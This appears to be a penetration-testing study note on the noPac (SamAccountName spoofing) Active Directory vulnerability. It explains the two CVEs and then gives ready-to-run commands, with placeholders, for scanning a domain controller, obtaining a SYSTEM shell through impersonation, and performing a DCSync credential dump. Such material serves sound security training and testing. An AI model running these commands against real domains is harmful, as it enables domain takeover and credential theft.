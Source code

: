 
## NoPac (**SamAccountName** Spoofing)
A great example of an emerging threat is the [Sam_The_Admin vulnerability](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/sam-name-impersonation/ba-p/3042699), also called `noPac` or referred to as `SamAccountName Spoofing` released at the end of 2021. This vulnerability encompasses two CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287), allowing for intra-domain privilege escalation from any standard domain user to Domain Admin level access in one single command.

| 2021-42278                                                                 | 2021-42287                                                                                    |
| -------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| `42278` is a bypass vulnerability with the Security Account Manager (SAM). | `42287` is a vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS. |

### Simplified Exploit Description
1. **Exploit Overview**:
    - Exploit changes a computer account's `SamAccountName` to match a Domain Controller's.
    - Authenticated users can add up to[ 10 computers to a domain](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/add-workstations-to-domain) by default.
    - Kerberos tickets are then requested, tricking the service into issuing tickets under the DC's name.
    - This leads to access as the DC service, potentially granting a SYSTEM shell on the Domain Controller.
    - The flow of the attack is outlined in detail in this [blog post](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware).
    - We can use this [tool](https://github.com/Ridter/noPac) to perform this attack.
2. **Preparation**:
    - `noPac` uses Impacket for communication, payload uploads, and command execution.
3. **Setup Commands**:
 1.Ensure `Impacket` is installed:
``` shell
git clone https://github.com/SecureAuthCorp/impacket.git
python setup.py install
```
 2. Cloning the NoPac Exploit Repo
``` shell
git clone https://github.com/Ridter/noPac.git
```
### check if the system is vulnerable using a scanner
```shell
sudo python3 scanner.py DOMAIN/USERNAME:PASSWORD -dc-ip DC_IP -use-ldap
```
Results in success:
![image](https://github.com/user-attachments/assets/4af1d976-2d20-4824-9e4d-206d1ee0cf31)
### Running NoPac & Getting a SYSTEM Shell
```shell
sudo python3 noPac.py DOMAIN/USERNAME:PASSWORD -dc-ip DC_IP -dc-host DC_HOSTNAME -shell --impersonate ADMIN_USER -use-ldap
```
### Using NoPac to Perform a DCSync Attack:
```shell
sudo python3 noPac.py DOMAIN/USERNAME:PASSWORD -dc-ip DC_IP -dc-host DC_HOSTNAME --impersonate ADMIN_USER -use-ldap -dump -just-dc-user DOMAIN/ADMIN_ACCOUNT
```
![image](https://github.com/user-attachments/assets/dc210d2b-862e-497b-b2b7-936f1e2afa66)

### **Key Notes**

1. **TGT Persistence**: The exploit saves the Ticket Granting Ticket (TGT) in the current directory on the attack host. This can be used for further exploitation.
2. **Noise and Detection**: Using these exploits can generate significant activity, which may trigger antivirus (AV) or endpoint detection and response (EDR) systems.
3. **Generic Input Placeholders**: Replace `DOMAIN`, `USERNAME`, `PASSWORD`, `DC_IP`, and `DC_HOSTNAME` with values specific to your target environment.
